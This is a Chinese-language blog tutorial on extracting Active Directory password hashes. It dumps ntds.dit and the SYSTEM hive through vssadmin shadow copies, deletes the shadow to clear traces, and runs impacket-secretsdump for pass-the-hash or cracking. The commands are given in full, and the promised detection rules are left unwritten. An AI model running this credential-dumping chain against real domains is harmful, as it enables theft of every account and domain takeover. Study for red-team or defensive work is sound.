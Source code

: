 ```yaml
---
layout: post
title:  "从NTDS.DIT文件中提取密码哈希"
date:   2019-12-31
tags: june-1
color: rgb(255,90,91)
cover: '../assets/test.jpg'
subtitle: '卷影副本转储NTDS.DIT文件'
---
```


# 什么是NTDS文件？
Ntds.dit文件是一个数据库文件，存在于C:\Windows\System32\ntds.dit用于存储Active Directory的数据，其中包括用户对象，组和组成员的身份信息。最重要的是它包括域中所有用户的密码哈希。也就是说，我们通过提取NTDS文件中的散列HASH，可以使用Mimikatz之类的工具执行哈希传递攻击，或使用Hashcat之类的工具来破解这些密码。这些密码的提取和破解可以脱机执行，因此将无法检测到。一旦攻击者提取了这些HASH，它们便可以充当域上包括域管理员的任何用户。
# 场景描述
攻击者获取到域管理员权限后，可以尝试复制本地的NTDS.dit文件。之后读取文件中存储的用户凭证。
由于很多情况下DC的权限管理比较严格，这里使用vssadmin来通过卷影副本来将ntds文件转储，同时方便后续的读取hash的过程。
简单介绍一下vssadmin:
是Windows本地的白名单工具，存在于C:\Windows\System32\vssadmin.exe
能够显示当前卷卷影副本备份以及所有已安装的卷影副本编写器和提供程序。
## 创建C盘的卷影副本
使用以下命令（登录权限为域管理员权限）
{% highlight ruby %}
vssadmin create shadow /for=c:
{% endhighlight %}
![1](/assets/vssadmin.png)
## 从卷影中检索并复制ntds.dit文件到指定目录下
使用以下命令（登录权限为域管理员权限）：
{% highlight ruby %}
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\ntds.dit C:\test\ntds.dit
{% endhighlight %}
![2](/assets/vssadmin2.png)
## 从注册表或卷影中复制SYSTEM文件
由于提取文件中的hash需要密钥，所以需要转储SYSTEM。这里从卷影副本中复制，使用以下命令：
{% highlight ruby %}
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\SYSTEM C:\test\SYSTEM
{% endhighlight %}
![3](/assets/vssadmin3.png)
## 删除创建的卷影副本
使用以下命令：
{% highlight ruby %}
vssadmin delete shadows /shadow={d8a08578-1869-473b-bc19-fa96da667413}
{% endhighlight %}
![4](/assets/vssadmin4.png)
注：这里使用的卷影ID值为第一步中创建卷影副本时的ID值
## 读取ntds.dit文件中的hash值
使用kali中存在的工具Impacket，Imoacket是一组python脚本，可用于执行各种任务，包括提取NTDS文件的内容。
将转储后的ntds和SYSTEM文件放到某一目录下后（这里放到桌面下）使用以下命令：
{% highlight ruby %}
impacket-secretsdump -system /root/Desktop/SYSTEM -ntds /root/Desktop/ntds.dit LOCAL
{% endhighlight %}
可以看到已经提取出当前DC中所有的账户hash值，之后可以使用这些hash值进行hash传递。
![5](/assets/vssadmin5.png)
### 检测规则后续补充
